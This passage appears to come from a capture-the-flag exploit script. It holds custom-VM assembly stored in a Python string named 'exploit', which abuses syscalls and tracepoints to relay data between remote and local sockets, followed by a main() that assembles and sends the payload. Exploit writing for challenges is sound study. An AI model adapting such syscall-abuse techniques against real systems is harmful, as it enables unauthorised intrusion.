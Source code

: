 ```python
0x133769 bad_syscall5 shit shit                 // Tracepoint
add output zero write_remote_size
add output zero write_packet_size
0x133769 sys_write write_remote_args output     // Write to remote
0x133769 sys_write write_packet_args output     // Write to screen
0x133769 sys_write write_sep_args output        // Write seperator
0x133769 bad_syscall6 shit shit                 // Tracepoint

// Remote -> local
0x133769 sys_recvfrom recvfrom_remote_args output
te constMinus1 output test_pad                  // Check if return value == -1
mult test_pad const20 test_pad                  // Use mult and add as a branch
add 0 test_pad 0
0x133769 bad_syscall0 shit shit                 // Tracepoint
add output zero write_local_size
add output zero write_packet_size
0x133769 sys_write write_local_args output      // Write to local
0x133769 sys_write write_packet_args output     // Write to screen  
0x133769 sys_write write_sep_args output        // Write seperator
0x133769 bad_syscall2 shit shit                 // Tracepoint

sub 0 loop_size 0

0x133769 sys_write write_output_args output
0x133769 sys_write write_packet_args output
"""

def main():
    #fuzz_opcodes()
    #fuzz_syscall_numbers()
    #exit(0)

    d = assemble_and_send(exploit, close=False, cont=True)

if __name__=="__main__":
    main()
```
